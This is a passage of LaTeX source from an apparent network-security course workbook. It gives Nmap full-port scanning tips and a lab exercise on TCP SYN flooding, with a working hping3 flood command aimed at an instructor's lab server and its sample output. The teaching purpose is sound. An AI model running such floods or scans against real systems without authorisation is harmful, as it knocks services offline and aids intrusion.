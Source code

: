 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
Better to use \verb+-A+ all the time, includes even more scripts and advanced stuff
You can also save prefixes to scan in a text file, I usually name it \verb+targets+

I also recommend adding \verb+-oA+ for writing output files. So a regular Nmap command might be:
\verb+nmap -p 1-65535 -A -oA full-tcp-scan -iL targets+



\chapter{\faInfoCircle\ TCP SYN flooding 30min}
\label{ex:syn-flood}

{\bf Objective:}\\
Start a webserver attack using SYN flooding tool hping3.

{\bf Purpose:}\\
See how easy it is to produce packets on a network using hacker programs.

The tool we will use is very flexible and can produce ICMP, UDP and TCP using very few options. This tool is my primary one for doing professsional DDoS testing.

\begin{alltt}\footnotesize
-1 --icmp
       ICMP  mode,  by  default  hping3  will  send  ICMP echo-request, you can set other ICMP
       type/code using --icmptype --icmpcode options.

-2 --udp
       UDP mode, by default hping3 will send udp to target hosts port 0.  UDP header  tunable
       options are the following: --baseport, --destport, --keep.
\end{alltt}

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

Try doing the most common attacks TCP SYN flood using hping3:

\begin{alltt}
hping3 --flood -p 80 -S 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}
\end{document}
